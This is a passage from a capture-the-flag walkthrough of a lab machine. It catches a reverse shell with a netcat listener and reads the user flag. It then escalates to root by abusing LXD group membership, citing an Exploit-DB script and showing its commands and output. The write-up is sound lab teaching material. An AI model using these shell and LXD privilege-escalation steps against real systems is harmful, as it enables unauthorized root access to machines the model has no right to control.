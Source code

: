 ```sh
nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.11.3.139] from (UNKNOWN) [10.10.195.20] 53182
bash: cannot set terminal process group (2584): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$
```

In this shell we can now read the User-flag. 

```sh
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
9******************************0
```

So half way done on the target. Now we want root access on the client. :)

## Privilage-Escalation

For my Privilage-Escalation i exploit the LXD-Vulnerability on the target. 

```sh
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
The command "id" shows me that the user is in the LXD-Group. LXD is a container software manager. Its like Doker. 

There is a Vulnerability of the LXD-Container:

[Exploit-DB-LXD-Vulnerability](https://www.exploit-db.com/exploits/46978)

For the Exploitation i followed the steps in the Command section of the file: 
```sh
# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```

When this steps are done we can now run the script on the target:

```sh
namelessone@anonymous:~$ ./get-root.sh -f alpine-v3.12-x86_64-20200927_2146.tar.gz
<root.sh -f alpine-v3.12-x86_64-20200927_2146.tar.gz
Image imported with fingerprint: e35751259917ef3b79e8aac7a30a93178e6da525f5b4cf76bef49452d5d09997
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine | e35751259917 | no     | alpine v3.12 (20200927_21:46) | x86_64 | 3.05MB | Sep 27, 2020 at 8:40pm (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
Creating privesc
```
